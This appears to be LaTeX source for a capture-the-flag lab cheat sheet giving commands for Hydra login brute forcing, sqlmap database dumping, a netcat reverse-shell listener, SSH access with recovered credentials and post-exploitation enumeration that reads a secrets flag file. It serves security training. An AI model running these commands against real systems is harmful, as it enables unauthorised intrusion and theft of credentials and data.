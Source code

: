 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Hydra}
\textbf{Purpose:} network login brute forcing (here: HTTP POST form).
\begin{lstlisting}[style=bash]
hydra -l administrator -P ctf-wordlist.txt <TARGET> -s 3000 \
  http-post-form "/login:username=^USER^&password=^PASS^:Incorrect password"
\end{lstlisting}
\textbf{Interpret:} the failure string identifies non-hits; anything else is a
candidate. \textbf{Next:} log in and pursue the maintenance console.

\subsection{sqlmap}
\textbf{Purpose:} automated SQL-injection detection and exploitation.
\begin{lstlisting}[style=bash]
sqlmap -u "http://<TARGET>:3000/search?q=test" --batch --dbs
\end{lstlisting}
\textbf{Interpret:} confirms injectability and enumerates databases/tables.
\textbf{Next:} dump the \texttt{secrets} table to recover the flag.

\subsection{Netcat}
\textbf{Purpose:} TCP listener/connector for shells.
\begin{lstlisting}[style=bash]
nc -lvnp 4444
\end{lstlisting}
\textbf{Interpret:} an inbound connection is your reverse shell. \textbf{Next:}
interact with the shell; run post-exploitation.

\subsection{SSH}
\textbf{Purpose:} remote shell (optional real service when
\texttt{ENABLE\_SSH=true}).
\begin{lstlisting}[style=bash]
ssh administrator@<TARGET> -p 2222
\end{lstlisting}
\textbf{Interpret:} password auth with the recovered credential grants a container
shell. \textbf{Next:} enumerate and read the flag.

\subsection{Linux CLI}
\textbf{Purpose:} post-exploitation enumeration.
\begin{lstlisting}[style=bash]
id; hostname; ss -lntp; find /opt -type f 2>/dev/null
cat /opt/vaultgate/secrets/flag.txt
\end{lstlisting}
\textbf{Interpret:} reveals users, services, and files; locates the flag.
\textbf{Next:} retrieve the flag; document findings.
\end{document}
